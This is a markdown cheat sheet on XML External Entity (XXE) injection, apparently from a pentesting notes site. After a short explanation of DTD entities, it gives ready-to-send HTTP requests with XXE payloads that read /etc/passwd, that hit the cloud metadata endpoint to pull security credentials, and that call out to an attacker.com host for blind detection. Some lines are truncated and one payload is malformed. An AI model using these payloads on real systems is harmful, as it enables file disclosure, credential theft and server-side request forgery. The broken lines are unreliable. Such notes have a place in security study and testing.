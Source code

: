 # ⭕ XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:purple;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:purple;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit P

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:purple;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit P
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit P
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]> <MainTag><VulTag>&xxe;</VulTag></MainTag>
```
